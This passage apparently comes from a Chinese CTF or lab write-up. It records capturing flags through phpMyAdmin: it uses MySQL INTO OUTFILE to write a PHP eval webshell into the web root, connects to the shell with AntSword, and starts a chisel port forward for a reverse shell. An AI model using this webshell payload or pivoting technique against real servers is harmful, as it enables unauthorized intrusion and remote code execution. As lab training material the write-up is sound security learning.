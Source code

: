 登录进 phpMyAdmin

![img](img/image_20240731-133132.png)

## flag - Mysql

在数据库中，可以找到 flag

![img](img/image_20240732-133245.png)

## phpMyAdmin 借助 Mysql 写入 Webshell

首先，先检查安全参数

```sql
show global variables like '%secure%'
```

![img](img/image_20240735-133532.png)

可以看到 `secure_file_priv` 变量为空，可以任意指定文件的位置

```sql
select '<?php @eval($_POST["shell"])?>' into outfile '/var/www/html/shell.php'
```

![img](img/image_20240737-133741.png)

访问 `/shell.php`

![img](img/image_20240738-133815.png)

确定文件被写入，尝试使用蚁剑进行连接

![img](img/image_20240739-133908.png)

## flag - phpMyAdmin

连接成功，成功读取到 flag

![img](img/image_20240739-133937.png)

## phpMyAdmin 反弹 shell

由于 phpMyAdmin 存在于隔离内网

![img](img/image_20240741-134137.png)

首先，在 `Thinkphp` 主机上建立内网 -> 外网的端口转发

```bash title="Thinkphp"
(remote) www-data@4c2afff6c232:/tmp$ ./chisel_1.9.1_linux_amd64 client 192.168.200.129:1331 8888:0.0.0.0:8888
[2] 2075
2024/07/25 05:42:33 client: Connecting to ws://192.168.200.129:1331
2024/07/25 05:42:33 client: tun: proxy#8888=>0.0.0.0:8888: Listening
2024/07/25 05:42:33 client: Connected (Latency 1.35978ms)
```
